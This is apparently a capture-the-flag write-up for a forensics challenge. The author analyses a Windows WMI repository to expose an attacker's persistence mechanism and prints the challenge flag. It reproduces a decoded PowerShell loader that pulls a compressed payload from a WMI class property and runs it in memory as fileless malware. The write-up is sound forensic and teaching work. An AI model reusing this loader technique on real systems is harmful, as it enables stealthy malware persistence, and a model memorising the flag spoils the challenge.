





# WRITE_UP #

## PERSISTENCE ##

### 1. Analysis ###
* **Given:** 1 BTR file named `INDEX.BTR`, 3 MAP files `MAPPING1.MAP`, `MAPPING2.MAP`, `MAPPING3.MAP` and a DATA file `OBJECTS.DATA`.
* **Description:** During a recent security assessment of a well-known consulting company, the competent team found some employees' credentials in publicly available breach databases. Thus, they called us to trace down the actions performed by these users. During the investigation, it turned out that one of them had been compromised. Although their security engineers took the necessary steps to remediate and secure the user and the internal infrastructure, the user was getting compromised repeatedly. Narrowing down our investigation to find possible persistence mechanisms, we are confident that the malicious actors use WMI to establish persistence. You are given the WMI repository of the user's workstation. Can you analyze and expose their technique?
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### WMI REPOSITORY PARSERRRR ####
Based on the information from the description, we can identify these files belong to a `WMI repository`. After a research, I found these information in this link: [WMI repository file format](https://github.com/libyal/dtformats/blob/main/documentation/WMI%20repository%20file%20format.asciidoc)

* **WMI repository - Windows Management Instrumentation:** is a central database storing Windows management data. 
* **INDEX.BTR:** The Index B-tree file. It acts as the index for the WMI repository, storing a B-tree structure that allows the system to perform fast lookups of objects and classes.
* **MAPPING#.MAP:** The Mapping files (usually 3 files: MAPPING1, MAPPING2, MAPPING3). They manage the transaction state of the repository and maintain the mapping between logical pages and physical pages located in the `OBJECTS.DATA` file.
* **OBJECTS.DATA:** The Objects data file. This is the core file that stores the actual CIM (Common Information Model) objects, including class definitions, instances, and the actual WMI data payloads (where malicious WMI persistence mechanisms like Event Filters and Consumers are usually hidden).

Since the challenge's description mentioned `persistence`, we can `strings` three main classes of the `OBJECTS.DATA` which are:
1. `__EventFilter`: the booting condition
2. `EventConsumer`: what happen after booting conditions are success
3. `__FilterToConsumerBinding`: links two above classes together

You would want to see the `EventConsumer` first since it contains PowerShell or command the attackers want to run:

```bash
strings OBJECTS.DATA | grep "EventConsumer" -C 10
```



That's a PowerShell script contains a payload encoded by base64. We can use CyberChef to decode the script:



```ps1
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value;
sv o (New - Object IO.MemoryStream);
sv d (New - Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($file), [IO.Compression.CompressionMode]::Decompress));
sv b (New - Object Byte[](1024));
sv r (gv d).Value.Read((gv b).Value, 0, 1024);
while ((gv r).Value  - gt 0)  {
    (gv o).Value.Write((gv b).Value, 0, (gv r).Value);
    sv r (gv d).Value.Read((gv b).Value, 0, 1024);
}
[Reflection.Assembly]::Load((gv o).Value.ToArray()).EntryPoint.Invoke(0, @(, [string[]]@()))|Out - Null
```

The script will take the `Value` from a class named `ROOT\cimv2:Win32_MemoryArrayDevice`, then decode the base64 string payload before decompressing the payload. It reads payload in 1024 bytes chunks, loads it into RAM, and executes it without saving the payload to disk (Fileless malware).

We need to find the payload hidden in `Win32_MemoryArrayDevice`:

```bash
strings OBJECTS.DATA | grep "Win32_MemoryArrayDevice" -C 10
```



Now using the script logic to decode the payload, we can use `CyberChef` with recipe `From Base64` and `Raw Inflate` to do this. However remember to convert the output to `UTF-16 LE` instead of using `Remove null bytes` recipe since the raw extracted payload contains hidden binary bytes, in this challenge there's `00 31`:

* If we remove the null bytes, `00 31` becomes 31, which translates to the ASCII character 1. Since 1 is a valid base64 character, the From base64 recipe will recognize it, shift the decode process and entirely corrupt the flag.

* However, the `UTF-16 LE` interprets `00 31` as a Unicode character . Because it is an invalid base64 character, base64 recipe will ignore it, allow the original payload to be preserved:
  

<p align="center"><i>Using remove null bytes recipe</i></p>


<p align="center"><i>Decoding the output as UTF-16 LE</i></p>

Often I use `remove null bytes` recipe but from this challenge I could notice such a small change can lead through a consequece. Back to the decoded payload, I found a `HTB` base64 format string. Decode the string then I easily got the flag. 

### 3. Solution ###
1. **Result:** The flag is `HTB{1_th0ught_WM1_w4s_just_4_M4N4g3m3nt_T00l}`


